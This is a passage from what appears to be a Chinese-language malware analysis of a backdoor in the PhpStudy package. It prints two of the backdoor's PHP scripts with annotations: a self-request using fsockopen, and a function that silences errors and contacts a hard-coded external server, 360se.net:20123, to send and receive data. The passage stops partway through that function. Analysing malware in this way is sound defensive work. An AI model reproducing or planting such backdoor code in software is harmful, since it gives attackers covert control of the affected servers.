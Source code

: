 ![6.jpg](./resource/Phpstudy后门(非官方后门！！！)/media/rId34.jpg)

图4：OD动态调试Payload

#### PHP脚本后门分析

脚本一功能：使用fsockopen模拟GET发包

    @ini_set("display_errors","0");
    error_reporting(0);
    $h = $_SERVER['HTTP_HOST'];
    $p = $_SERVER['SERVER_PORT'];
    $fp = fsockopen($h, $p, $errno, $errstr, 5);
    if (!$fp) {
    } else {
        $out = "GET {$_SERVER['SCRIPT_NAME']} HTTP/1.1\r\n";
        $out .= "Host: {$h}\r\n";
        $out .= "Accept-Encoding: compress,gzip\r\n";
        $out .= "Connection: Close\r\n\r\n";

        fwrite($fp, $out);
        fclose($fp);
    }

脚本二功能：内置有域名表和端口表，批量遍历然后发送数据。注释如下：

    <?php
    @ini_set("display_errors","0");
    error_reporting(0);
    function tcpGet($sendMsg = '', $ip = '360se.net', $port = '20123'){
        $result = "";
        $handle = stream_socket_client("tcp://{$ip}:{$port}", $errno, $errstr,10);  // 接收数据，每次过来一条数据就要连接一次
          if( !$handle ){
            $handle = fsockopen($ip, intval($port), $errno, $errstr, 5);  //错误的时候就重连一次测试。
            if( !$handle ){
                return "err";
            }
        }
        fwrite($handle, $sendMsg."\n");         // 模拟发送数据
        while(!feof($handle)){
            stream_set_timeout($handle, 2);
            $result .= fread($handle, 1024);   // 读取文件
            $info = stream_get_meta_data($handle);     // 超时则退出
            if ($info['timed_out']) {
                break;
            }
        }
        fclose($handle);
